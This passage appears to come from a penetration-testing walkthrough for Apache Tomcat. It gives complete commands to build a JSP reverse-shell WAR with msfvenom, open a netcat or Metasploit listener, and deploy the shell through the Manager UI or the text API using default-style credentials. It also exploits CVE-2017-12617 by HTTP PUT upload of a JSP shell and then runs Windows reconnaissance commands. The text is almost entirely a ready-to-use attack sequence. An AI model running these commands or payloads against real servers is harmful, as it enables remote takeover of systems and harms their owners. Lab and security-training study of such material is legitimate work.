Option A2: Manual WAR generation + Manager UI upload
```
# Generate WAR reverse shell (JSP payload inside)
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f war -o shell.war

# Start a listener (either netcat or Metasploit handler)
nc -lvnp $LPORT
# OR
# msfconsole -q
# use exploit/multi/handler
# set PAYLOAD java/jsp_shell_reverse_tcp
# set LHOST $LHOST
# set LPORT $LPORT
# run

# In browser: http://$TARGET:8080/manager/html
# Login with discovered creds. Deploy "shell.war".
# After deploy, access: http://$TARGET:8080/shell/
# The name 'shell' comes from 'shell.war' (context path = /shell).
```

Option A3: Manager “text” API deploy via curl
```
# Deploy
curl -u 'tomcat:s3cret' --upload-file shell.war "http://$TARGET:8080/manager/text/deploy?path=/shell&update=true"

# Trigger reverse shell
curl http://$TARGET:8080/shell/

# Undeploy (cleanup)
curl -u 'tomcat:s3cret' "http://$TARGET:8080/manager/text/undeploy?path=/shell"
```

4) Exploit Path B: CVE-2017-12617 (HTTP PUT to upload JSP)
```
# Check methods allowed on root (or try likely contexts)
curl -i -X OPTIONS http://$TARGET:8080/

# Quick PUT probe
curl -i -X PUT -d "test" http://$TARGET:8080/test.txt

# If 201 Created/204 No Content returned, try uploading JSP shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw -o shell.jsp

# Upload JSP via PUT
curl -i -X PUT --data-binary @shell.jsp http://$TARGET:8080/shell.jsp

# Start listener and trigger
nc -lvnp $LPORT
curl http://$TARGET:8080/shell.jsp
```

5) Post-exploitation (Windows quick checks)
```
whoami
whoami /priv
whoami /groups
systeminfo
ipconfig /all
netstat -ano
```
